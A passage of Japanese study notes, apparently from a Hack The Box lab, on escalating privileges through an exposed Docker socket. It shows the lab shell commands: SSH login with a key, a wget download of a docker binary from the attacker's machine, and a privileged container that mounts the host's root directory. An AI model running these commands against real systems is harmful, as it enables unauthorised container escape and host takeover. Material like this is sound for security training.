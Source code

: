 SSHキーを使用したログイン
```sh
snowyowl644@htb[/htb]$ ssh cry0l1t3@<host IP> -i cry0l1t3.priv
```
### Dockerソケット
- DockerソケットまたはDockerデーモンソケットは、自分やプロセスがDockerデーモンと通信できるようにする特別なファイル
- Dockerセットアップの構成に応じて、Unixソケットまたはネットワークソケットを介して行われる
- Dockerソケットは、DockerクライアントとDockerデーモン間の通信を促進するブリッジとして機能する
- Docker CLIを介してコマンドを発行すると、DockerクライアントはコマンドをDockerソケットに送信して、次にDockerデーモンがコマンドを処理し、要求されたアクションを実行する

それにもかかわらず、Dockerソケットは、安全な通信を保証し、不正アクセスを防ぐために適切な権限を必要とする
Dockerソケットへのアクセスは、通常、特定のユーザーまたはユーザーグループに制限され、信頼できるユーザーのみがコマンドを発行したり、Dockerデーモンとやり取りしたりできるようにする

Dockerソケットの存在を確認する例
```sh
htb-student@container:~/app$ ls -al

> srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock
```

dockerバイナリを使用してソケットとやり取りし、既に実行されているDockerコンテナを列挙できる
docker バイナリをダウンロードして実行する例
```shell-session
htb-student@container:/tmp$ wget https://<parrot-os>:443/docker -O docker
htb-student@container:/tmp$ chmod +x docker
htb-student@container:/tmp$ ls -l

-rwxr-xr-x 1 htb-student htb-student 0 Jun 30 15:27 docker


htb-student@container:~/tmp$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   app
```

ホストのルートディレクトリ（/）をコンテナ上の/hostsystemディレクトリにマッピングする独自のDockerコンテナを作成できる
ホストシステムへのフルアクセスを取得できる
そのために、これらのディレクトリを適切にマッピングし、main_app Dockerイメージを使用する必要がある

ホストのルートディレクトリをマウントしたコンテナを作成する例
```shell-session
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
htb-student@container:~/app$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED           STATUS           PORTS     NAMES
7ae3bcc818af     main_app      "/docker-entry.s..."    12 seconds ago    Up 8 seconds     443/tcp   app
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago        Up 17 minutes    443/tcp   app
<SNIP>
```
